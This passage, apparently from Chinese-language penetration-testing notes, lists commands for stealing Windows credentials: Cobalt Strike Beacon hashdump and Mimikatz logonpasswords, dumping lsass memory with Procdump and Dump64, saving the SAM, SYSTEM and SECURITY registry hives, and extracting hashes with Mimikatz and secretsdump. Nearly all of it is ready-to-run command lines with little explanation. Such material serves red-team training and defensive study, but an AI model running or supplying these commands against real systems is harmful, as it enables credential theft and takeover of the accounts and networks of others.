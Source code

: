 4.Cobalt Strike 运行 Mimikatz 模块

Cobalt Strike Beacon 获取 Hash

```plaintext
hashdump
logonpasswords

// 也可以执行 mimikatz 命令
mimikatz sekurlsa::logonpassword
```

二、离线读

1.Procdump 提取 lsass 数据到文件

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) 导出 lsass 进程数据，用 Mimikatz 读取数据。默认不存在于系统，需要下载传到目标机器使用，在使用的过程中需要管理员权限运行，普通用户无法转存。

```plaintext
// 32 位系统用法
procdump.exe -accepteula -ma lsass.exe lsass.dmp


// 64 位系统用法
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

还原数据。

```plaintext
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

2.Dump64 提取 lsass 数据到文件（待补充）⚒️

Microsoft Visual Studio 自带的工具，位于 `Microsoft Visual Studio\Installer\Feedback\`。

[https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/)

```plaintext
dump64.exe <LsassPID> lsass.dmp
```

3.注册表导出 Hash

```plaintext
reg save HKLM\SYSTEM system.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\SECURITY security.hiv
```

获取哈希。

```plaintext
mimikatz.exe "lsadump::sam /system:system.hiv /sam:sam.hiv" exit

python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
```
